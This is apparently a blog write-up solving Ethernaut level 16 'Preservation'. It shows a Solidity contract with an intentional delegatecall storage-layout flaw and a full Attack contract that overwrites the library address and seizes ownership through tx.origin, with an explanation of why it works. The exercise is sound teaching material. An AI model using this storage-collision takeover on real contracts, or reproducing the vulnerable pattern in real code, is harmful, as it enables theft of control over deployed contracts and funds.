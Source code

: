 # Ethernaut 16: Preservation

This is a intro to the proxy pattern, where storage is in the proxy contract and the logic in a delegate contract. Delegatecall needs to take care of several things to be not vulnerable, therefore openzeppelin and hardhat share a couple of contacts to use.

## The Task Intro

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

The goal of this level is for you to claim ownership of the instance you are given.

Things that might help

- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for delegatecall to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

## The Task Code

```apache
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Preservation {

  // public library contracts
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) {
    timeZone1Library = _timeZone1LibraryAddress;
    timeZone2Library = _timeZone2LibraryAddress;
    owner = msg.sender;
  }

  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(abi.encodePacked(setTimeSignature, _timeStamp));
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp
  uint storedTime;

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## The Solution

```apache
contract Attack{
    // public library contracts
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;
    uint storedTime;
    // Sets the function signature for delegatecall
    bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));
     Preservation public preservation;

    constructor(Preservation _preservation){
        preservation = _preservation;
    }

    function attack () public {
        preservation.setSecondTime(uint256(uint160(address(this))));
        preservation.setFirstTime(1);
    }

    function setTime(uint _time) public {
        owner = tx.origin;
    }
}
```

This level was already a bit more difficult than level 6. The vulnerability was clear: The library has not the same storage structure as the calling contract. If the main contract calls the library, the function stores to the storage variable `soredTime`. This is storage slot 0. Because the library gets called by delegate, this means that msg.sender, msg.value and all storage variables belong to the calling contract Preservation.

The developer made a mistake and did not replicate all other storage variable from the callee, overriding the first variable timeZone1Library.

So I can call a first time setSecondTime and pass an address of the attacker contract ;-). Then with the second call, the attacker contract will be called. I can set the tx.origin as an owner, and WON the level.

There where 2 difficulties - first msg.sender seems not to work and I needed to fall back to tx.origin. And the second difficulty was that I ran out of gas, but did not see this message in remix... But that cost me about 30 min, so its ok...

```Done 🎉️.

```
